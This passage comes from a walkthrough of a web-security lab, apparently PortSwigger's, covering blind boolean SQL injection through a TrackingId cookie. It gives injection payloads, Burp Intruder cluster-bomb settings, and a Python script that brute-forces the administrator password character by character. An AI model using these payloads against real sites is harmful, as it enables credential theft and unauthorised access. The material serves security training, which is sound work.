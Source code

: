     If "Welcome back" appears, the character is `a`. If not, try `b`, then `c`, etc.
    
- This is slow manually. Use **Burp Intruder** to automate testing each character.
    

## Step 8: Using Burp Intruder for Automation

- Modify the cookie payload:
    
    ```
    Cookie: TrackingId=B4P068IYi5kg4oJQtest AND (SELECT SUBSTRING(password1,1,1) FROM users WHERE username='administrator')='a';
    ```
    
- Add positional markers around the number (`1`) and character (`a`) so Intruder can iterate over positions and character sets.
    
- Change Attack Type to **Cluster Bomb** to try multiple positions (1 to password length) and multiple characters (a-z0-9).
    
- Under **Payloads**:
    
    - Payload set 1: Numbers 1 to 30 (for substring positions)
    - Payload set 2: a-z, 0-9 (for characters)
- In **Settings → Grep - Match**, add `Welcome` to easily spot correct guesses.
    
- Start the attack. When a payload returns "Welcome back," that character is correct. Repeat for each position until the full password is found.
    

**Why Manual + Intruder?**  
sqlmap may fail or require tweaking. Manual checking (Repeater, Comparer) ensures a solid understanding, while Intruder automates brute-forcing large character sets.

## Step 9: Confirming the Full Password

- After brute-forcing each character, we recover the entire administrator password.
    
- Log in as `administrator` to complete the lab.
    

_Key Takeaway:_  
Manual verification and Burp Suite tools often succeed where automated tools alone struggle.

## Step 10: Scripting for Efficiency

- The instructor provides a Python script to automate guessing characters:

```python
import requests
import string

burp0_url = "https://0aae00dd03ee409a8f9135cf00a70092.web-security-academy.net:443/filter?category=Pets"
burp0_cookies = {"TrackingId": "aw52CZkptjzVQuMV", "session": "d2h6yEB6Mx16X51gnZHVeROH8cznKJMM"}
burp0_headers = {"Sec-Ch-Ua": "\"Not(A:Brand\";v=\"24\"", ...}

char_set = string.ascii_lowercase + string.digits
password = ''

for position in range(1, 21):
    for char in char_set:
        burp0_cookies["TrackingId"] = f"aw52CZkptjzVQuMV' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username='administrator')='{char}"
        print(f"Testing {position}:{char}")
        response = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
        
        if "Welcome" in response.text:
            print(f"Found {position}:{char}")
```
